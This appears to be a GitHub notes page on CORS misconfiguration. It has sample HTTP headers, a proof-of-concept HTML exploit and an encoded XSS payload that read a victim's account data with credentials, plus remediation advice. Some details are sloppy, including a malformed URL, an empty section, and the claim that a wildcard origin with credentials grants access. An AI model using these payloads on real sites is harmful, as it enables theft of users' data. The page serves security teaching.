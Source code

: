 # CORS

## Information

Cross-Origin Resource Sharing(CORS) is a mechanism that enables web browsers to perform cross-domain requests using the XMLHttpRequest API in a controlled manner.

Without CORS, websites are restricted to accessing resources from the same origin through what is known as ***same-origin policy***

OWASP TOP 10: A6-Security Misconfiguration vulnerability

## CORS Request

There are two types of CORS requests:
   1. Simple requests
   2. Preflighted requests.

 ### 1. Simple requests
 
**Example:** Web browser sends AJAX **GET** `https:///api.account_detaild` request to `api.website.com` containing the domain that served the parent page, Consider the below Request.

```
GET /api/account_detaild HTTP/1.1
Host: www.website.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: ru,en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate
Origin: www.website.com

```
The web client inform to server its source domain using the HTTP request header "Origin". 

You get below response with the **Access-Control-Allow-Origin** header setting. 
```
HTTP/1.1 200 OK
Date: Sat, 16 May 2020 00:2:03 GMT
Content-Type: application/xml
Access-Control-Allow-Credentials: true
Access-Control-Allow-Origin: www.website.com 
```
🏁 The header is configured with `Access-Control-Allow-Origin: www.website.com` It means ***Only***✔️ `www.website.com` domain can access the resources.

🏴‍☠️ IF header is configured with a wildcard **`( * )`**. It means **Any domain**☢️  can access the resources.
```
HTTP/1.1 200 OK
Date: Sat, 16 May 2020 00:2:03 GMT
Content-Type: application/xml
Access-Control-Allow-Credentials: true
Access-Control-Allow-Origin: *
```

🏴 IF the server does not allow a cross-origin request the you will get error⚠️ page

 ### 2. Preflighted requests

## Detect CORS misconfiguration     

Identify Response **Access-Control-Allow-Origin** Header 

1. CORS misconfiguration using wildcards such as (*)
```
Access-Control-Allow-Credentials: true
Access-Control-Allow-Origin: * 
```
2. Origin with Other Domain.
```
Access-Control-Allow-Credentials: true
Access-Control-Allow-Origin: vulnerablesite.com 
```
Web client sends a request to get a resource from a different domain, Consider the below Request


## POC - Exploite Code
1. cors.html is the exploit code to exploit misconfigured CORS

```javascript
<!DOCTYPE html>
<html>
   <head>
      <script>
         function cors() {
            var xhttp = new XMLHttpRequest();
                xhttp.onreadystatechange = function() {
                    if (this.readyState == 4 && this.status == 200) {
                        document.getElementById("emo").innerHTML = alert(this.responseText);
            }
         };
         xhttp.open("GET", "https://www.website.com/api/account_detaild", true);
         xhttp.withCredentials = true;
         xhttp.send();
         }
      </script>
   </head>
   <body>
      <center>
      <h2>CORS - POC Exploit </h2>
      <button type="button" onclick="cors()">Exploit CORS</button>
   </body>
</html>
```

2. You can exploit this misconfiguration CORS using XSS so just replace **payload alert(document.domain)** 
    
    - XSS Payload for Exploite CORS:
```javascript
<script>function%20cors(){var%20xhttp=new%20XMLHttpRequest();xhttp.onreadystatechange=function(){if(this.status==200)alert(this.responseText);document.getElementById("demo").innerHTML=this.responseText}};xhttp.open("GET","https://www.website.com/api/account_detaild",true);xhttp.withCredentials=true;xhttp.send()}cors();</script>
```


## Remediation

* Allow only **Trusted domains** `Access-Control-Allow-Origin: <origin>` header.
  E.x: Access-Control-Allow-Origin: https://website.com

* Avoid whitelisting null `Access-Control-Allow-Origin: null`

* CORS defines browser behaviors and is never a replacing for server-side protection of sensitive data - an attacker can directly forge a request from any trusted origin. Therefore, web servers should continue to apply protections over sensitive data such as authentication and session management, in addition to properly configured CORS

## Refrence

- https://developer.mozilla.org/en-US/docs/Web/HTTP/CORS

- https://hackerone.com/reports/470298 

- https://medium.com/bugbountywriteup/think-outside-the-scope-advanced-cors-exploitation-techniques-dad019c68397

- https://www.moesif.com/blog/technical/cors/Authoritative-Guide-to-CORS-Cross-Origin-Resource-Sharing-for-REST-APIs/ 
